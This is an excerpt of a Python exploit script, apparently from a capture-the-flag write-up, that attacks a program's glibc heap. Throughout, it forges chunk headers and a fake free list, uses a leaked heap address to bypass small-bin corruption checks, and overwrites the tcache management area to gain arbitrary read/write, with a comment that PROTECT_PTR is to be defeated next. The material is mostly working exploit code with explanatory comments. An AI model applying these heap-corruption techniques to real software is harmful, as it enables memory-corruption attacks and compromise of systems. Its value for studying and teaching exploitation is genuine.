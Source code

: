```python
edit(4, payload)                
payload += b'F'*8               # Edit again to reach the next 8-byte segment
edit(4, payload)


payload = b'F'*0x9f8
payload += p64(0x101)                   # Chunk size field (has to be valid to avoid mitigations kicking in)
payload += p64(0xdeadbeef)              # Forward pointer can be anything
payload += p64(buf1)                    # Backwards pointer to the buffer controlled by player

edit(4, payload)                        # Apply payload



# Create the fake free list
payload = b'\x11'*0x110             # Padding to reach pointers

# -------------- Setup fake free list --------------- #
for i in range(1, 7):
    payload += p64(0xFFFFFFFFFFFFFFFF)*3    # Padding
    payload += p64(fake_free + (8*4)*i)     # Calculate offset to next fake free entry (BK pointer)
payload += p64(0xFFFFFFFFFFFFFFFF)*3        # Padding
payload += p64(0)                           # Null-byte to "terminate" free linked list 
# -------------------------------------------------- #

# Buf 2
payload += p64(0)*2                     # Padding
payload += p64(buf1)                    # Forward pointer to buf 1
payload += p64(fake_free)               # Pointer to fake free list

# Buf 1
payload += p64(0)*2                     # Padding
payload += p64(heap_leak + 0xee0)       # Forward pointer to "victim chunk" to bypass the check of small bin corruption
payload += p64(buf2)                    # Backward pointer to buf 2

payload += b'\x44'*(0x9f8-len(payload)) # Padding to be able to write to full chunk (strlen() and null-byte cutoff prevention)

edit(4, payload)                        # Apply payload

# Cause fake free list to be loaded
malloc(248, b'$'*248) # <--- This is now mallocd on top of a free small bin, but we don't care 



# Overwrite the heap management segment to gain more consistent arbitrary r/w
payload = b'A'*0x128            # Padding to reach FD of t-cache entry 0
edit(4, payload)

# -------- Loop to abuse 8-byte alignment to reach t-cache --------- #
for i in range(2, 13):
    if i%3 == 0:
        payload += b'A'*0x10
    else:
        payload += b'A'*0x8
    edit(4, payload)
# ------------------------------------------------------------------ #



# Defeat PROTECT_PTR and insert the address of garbage_truck in to the tcache
```